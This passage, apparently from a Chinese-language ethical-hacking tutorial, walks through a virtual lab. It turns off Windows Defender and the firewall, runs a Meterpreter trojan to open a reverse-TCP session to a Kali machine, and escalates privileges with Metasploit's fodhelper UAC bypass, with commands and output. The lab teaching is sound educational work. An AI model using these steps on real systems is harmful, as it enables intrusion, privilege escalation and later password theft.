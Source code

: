     记得将 `10.0.9.x` 替换为你 Kali 虚拟机的 IP 地址（输入 `ip` `addr` 或 `ip` `a` 来查看 IP 地址）。

1.  切换回你的 Windows 10 虚拟机。关闭 Windows Defender 的实时病毒保护：在 Windows 搜索栏中输入 `virus`，打开 **病毒和威胁防护设置**，点击 **管理设置**，然后将实时保护下的开关滑动到 **关闭**。

1.  在 Windows 10 虚拟机的管理员命令提示符中输入以下命令，禁用 Windows 防火墙：

    ```
    C:\Windows\system32> `netsh advfirewall set allprofiles state off`
    ```

    Windows 会回应 `Ok.`。

1.  找到你在第六章创建的 Meterpreter 木马可执行文件。这个文件应该仍然在你的 *下载* 或 *文档* 文件夹中。如果 Windows Defender 已将其移除，打开 Edge 浏览器，访问 *http://<10.0.9.4>/share/*（如果你的 Kali 虚拟机 IP 地址与 *10.0.9.4* 不同，请替换为你的 Kali 虚拟机 IP 地址），并重新下载木马。再次检查你的病毒和威胁保护设置，确保实时保护已关闭。然后双击木马文件运行它。

1.  切换回您的 Kali 虚拟机，您应该看到一个 Meterpreter 会话已经打开：

    ```
    msf6 exploit(multi/handler) > `[*] Sending stage (179779 bytes) to 10.0.9.5``[*] Meterpreter session 1 opened (10.0.9.4:4444 -> 10.0.9.5:50789) at 2020-06-17 15:40:38 -0400`
    ```

### 提升权限

窃取 Windows 密码需要管理员或系统级别的权限，这比您用于运行 Meterpreter 木马的 IEUser 帐户权限要高。借助 Metasploit，我们将通过另一个漏洞利用提升权限。这个过程被称为*权限提升*。

我们将使用 Metasploit 对 Windows `fodhelper`漏洞的利用来获得系统级访问权限。Windows 使用一个名为*fodhelper.exe*的程序（*fod*是“按需功能”的缩写）来管理区域设置，例如您选择的语言的键盘布局。这个应用程序是黑客的一个好目标，因为它以更高的权限运行，能够跨多个应用程序（如您的网页浏览器、文字处理器和桌面）更改语言设置。

1.  在您的 Kali 虚拟机中，确保您处于`msf6`命令提示符下，而不是与 Meterpreter 会话进行交互。如果您看到`meterpreter >`命令提示符，请输入`background`以返回到常规的`msf6`命令提示符：

    ```
    meterpreter > `background`[*] Backgrounding session 1...
    msf6 exploit(multi/handler) >
    ```

1.  在`msf6`提示符下，输入粗体显示的五个命令：

    ```
    msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > `use exploit/windows/local/bypassuac_fodhelper`
    [*] Using configured payload windows/meterpreter/reverse_tcp
    msf6 exploit(windows/local/bypassuac_fodhelper) >`set SESSION` `1`
    SESSION => `X`
    msf6 exploit(windows/local/bypassuac_fodhelper) > `set LHOST` `10.0.9.x`
    LHOST => `10.0.9.x`
    msf6 exploit(windows/local/bypassuac_fodhelper) > `exploit`
    ```

    更改`set` `SESSION`命令以匹配您的会话编号（如果不是 1 的话），并将`LHOST`的 IP 地址更改为与您的 Kali 机器匹配。

1.  最后的命令`exploit`可能需要尝试几次。如果收到消息提示`no` `session` `was` `created`，请使用向上箭头并按回车键重新运行`exploit`命令。当成功时，您会看到`Meterpreter` `session` `2` `opened`，这意味着漏洞利用成功打开了第二个会话。您的命令提示符将返回到`meterpreter >`，表明您正在与一个新的 Meterpreter 会话进行交互。
